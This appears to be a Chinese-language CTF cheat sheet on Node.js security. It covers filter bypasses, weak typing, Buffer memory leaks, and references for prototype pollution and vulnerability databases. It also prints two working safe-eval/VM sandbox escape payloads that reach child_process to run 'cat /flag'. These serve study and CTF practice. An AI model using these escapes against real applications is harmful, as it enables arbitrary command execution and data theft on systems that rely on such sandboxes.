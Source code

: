 # JavaScript

## Fuzz

- ``Object.getOwnPropertyNames(this)`` 得到依赖包名

- ``Error().stack`` 抛出栈错误

## 绕过

- 数组绕过

- `\x70\x72\x6f\x74\x6f\x74\x79\x70\x65` 编码绕过


## 弱类型比较

```
[1] == 1
'1' == 1
```

## 函数“缺陷”

- setTimeout(callback, delay[, ...args])

    当 delay 大于 2147483647 或小于 1 时，则 delay 将会被设置为 1。 非整数的 delay 会被截断为整数。

    如果 callback 不是函数，则抛出 TypeError。


## 原型链污染

### 参考资料

https://3nd.xyz/2019/09/10/Summary/Javascript-Prototype-Attack/#0x07-%E5%8F%82%E8%80%83%E9%93%BE%E6%8E%A5

## VM虚拟机逃逸

### Buffer

随机泄露内存
```js
Buffer(100)
```

升级版
```js
for (var step = 0; step < 100000; step++) {
    var buf = (new Buffer(100)).toString('ascii');
    if (buf.indexOf("target") !== -1)  break;
}
buf;
```
### Payload

#### Safe-Eval

```js
clearImmediate.constructor("return process;")().mainModule.require("child_process").execSync("cat /flag").toString()
```

```js
(function () {
  const f = Buffer.prototype.write;
  const ft = {
    length: 10,
    utf8Write(){

    }
  };
  function r(i){
    var x = 0;
    try{
      x = r(i);
    }catch(e){}
    if(typeof(x)!=='number')
      return x;
    if(x!==i)
      return x+1;
    try{
      f.call(ft);
    }catch(e){
      return e;
    }
    return null;
  }
  var i=1;
  while(1){
    try{
      i=r(i).constructor.constructor("return process")();
      break;
    }catch(x){
      i++;
    }
  }
  return i.mainModule.require("child_process").execSync("cat /flag").toString()
}()).toString()
```

### 参考资料

https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md

## NPM 包管理安全检测

```
npm audit
```

## 拓展资料

nodejs 语法手册 http://nodejs.cn/api/

Vulnerablity Database: 

https://snyk.io/vuln

https://github.com/advisories

https://www.npmjs.com/advisories